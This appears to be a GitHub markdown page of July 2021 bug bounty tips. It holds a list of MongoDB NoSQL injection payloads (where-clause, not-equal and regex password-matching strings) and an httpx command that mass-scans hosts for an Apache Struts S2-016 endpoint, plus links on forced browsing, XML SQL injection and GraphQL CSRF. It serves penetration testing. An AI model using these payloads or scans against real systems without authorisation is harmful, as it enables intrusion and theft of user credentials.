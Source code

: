 # Bug Bounty Tips - July 2021

## Android Pentesting Cheatsheet
- [Android Pentest Notes](Android-Pentest.md)

## Payloads for NoSQL Injection
```sql
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
```

## Forced Browsing to Access Admin Panel
- https://vijetareigns.medium.com/forced-browsing-to-access-admin-panel-214a7defa2a5

## [XML SQL Injection](https://twitter.com/intigriti/status/1413825337927114756?s=20)
![img](https://pbs.twimg.com/media/E57qpwdXIAIj9Tx?format=jpg&name=small)

## [Remote Command Execution ( Apache Struts S2-016) test via @pdiscoveryio httpX](https://twitter.com/Alra3ees/status/1416185619336814596?s=20)
```sh
httpx -l hosts.txt -path /sm/login/loginpagecontentgrabber.do -threads 100 -random-agent -x GET -title -tech-detect -status-code  -follow-redirects -title -mc 200
```

## [GraphQL CSRF by changing content-Type](https://twitter.com/intigriti/status/1416363312296734720?s=20)
![img](https://pbs.twimg.com/media/E6fu7RXXMAAe-PZ?format=jpg&name=small)

